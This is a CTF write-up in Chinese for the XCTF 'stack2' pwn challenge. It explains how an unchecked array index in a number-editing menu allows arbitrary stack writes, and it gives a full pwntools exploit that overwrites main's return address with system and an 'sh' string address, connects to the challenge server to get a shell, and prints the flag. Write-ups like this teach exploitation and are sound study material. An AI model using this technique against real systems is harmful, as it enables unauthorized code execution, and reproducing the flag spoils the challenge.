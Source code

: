 # stack2

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=4bb2f552-6679-4d25-a18d-883e4d9c206b_2)

pwn是我最菜的领域之一。这道题题目是stack还让我觉得这题应该不难吧，没想到能这么折磨我这个萌新。

checksec检查一下程序。

-   Arch:     i386-32-little<br>RELRO:    Partial RELRO<br>Stack:    Canary found<br>NX:       NX enabled<br>PIE:      No PIE (0x8048000)

NX开了应该是要rop，栈溢出加上canary难道是要爆破canary值？放进ghidra里看看。

![main](../../images/inGhidra.png)

上半部分就是普通的变量赋值可打印开始菜单。下面四个while嵌套初看有点奇怪，后面简单分析一下就能看出来是用一种比较奇怪的方式实现了选择操作。

![main](../../images/inMain2.png)

剩下的部分就是实现功能了。既然这道题是说栈溢出，那先看看有scanf的地方：第33，38，49，54，71和74行。

### scanf
- 从标准输入 stdin 读取格式化输入。
- 声明：int scanf(const char *format, ...)
- 参数：format -- 这是 C 字符串，包含了以下各项中的一个或多个：空格字符、非空格字符 和 format 说明符。
- format说明符格式：\[=%\[*][width][modifiers]type=]

就是从标准输入区stdin读取内容，以format的形式存储到format参数后的变量中。常见的栈溢出有可能出现在这里。&DAT_08048a97的值为%d，意思就是接收数字，鬼知道ghidra怎么解释成了这玩意。看一圈下来发现没有普通的缓冲区溢出，因为大部分scanf周围都有一个索引<100的判断，除了第71和74行。既然他俩这么特殊那就把突破点设在这了。

第71行的scanf将数据存放到countOfNumbers中（这个变量在最上面还有出现，用于记录有多少数字的，所以这里的命名可能有点不对），并在75行将countOfNumbers作为numbers数组的索引。相比于简单的栈溢出，这种形式会更难发现有一个任意地址写入。前面已经说过c语言中数组是不会索引越界的，只会按照数组当前地址一直往后推。我们的目标是用相对偏移把system函数写到main的返回地址。

至于这个偏移怎么找，你可以选择直接在ghidra或者ida里看，虽然直接看是不对的但是你可以每次往上加4位，一般偏差都不远。或者用更正确的方法，放到gdb里进行动态调试。记得用pwndbg或者peda等插件，直接用原版非常折磨人。这里我只有原版，所以就直接猜了。我在ghidra里看到numbers与返回地址的偏移是0x78，和ida不一样。

先把下面的payload写了。先在本机测试，这样才容易保证后面的内容完全正确，才能猜偏移（极其笨的萌新方法请勿学习）。题目其实给了一个后门函数hackme，但没法用，非常折磨；加上这道题不知道为啥很容易无限main循环，疯狂刷屏更搞心态了。

一般拿shell都是用/bin/sh的，这里突然来个/bin/bash可能有鬼。看了writeup后发现还真的有鬼，不能用。不过既然里面有system，直接自己调用system得了，32位传参也简单。

完整exp如下。

```python
from pwn import *
proc=remote("61.147.171.105",60389)
def Write_Addr(offset,payload):
    proc.sendlineafter("5. exit",'3')
    proc.sendlineafter("which number to change:",str(offset))
    proc.sendlineafter("new number:",str(payload))
proc.sendlineafter("How many numbers you have:",'1')
proc.sendlineafter("Give me your numbers",'1')
Write_Addr(0x84, 0x50)
Write_Addr(0x85, 0x84)
Write_Addr(0x86, 0x04)
Write_Addr(0x87, 0x08)
Write_Addr(0x8c, 0x87)
Write_Addr(0x8d, 0x89)
Write_Addr(0x8e, 0x04)
Write_Addr(0x8f, 0x08)
proc.sendlineafter("5. exit",'5')
proc.interactive()
```

可以很容易在ghidra或者ida中找到system的地址：0x08048450。这里是小端所以要倒过来写。拿shell可以直接system("sh")，简单省力。sh也可以在内存中找到。

- ROPgadget --binary 3fb1a42837be485aae7d85d11fbc457b --string 'sh'
  > Strings information<br>============================================================<br>0x08048987 : sh<br>0x08048ab3 : sh

ROPgadget可以帮助寻找gadget。--binary指定文件，--string指定查找的字符串。这里就用上面那个了：0x08048987。因为是x86，所以函数参数在函数返回地址的上方。中间空了4个字节是为了伪造了一个x86平台下的函数调用(plt，返回地址，参数)。很多时候看起来没啥问题的payload却总是拿不到shell有可能就是这个原因（虽然其实我不太懂）

## Flag
  > cyberpeace{0240e66795b6c099e73711bb2292af63}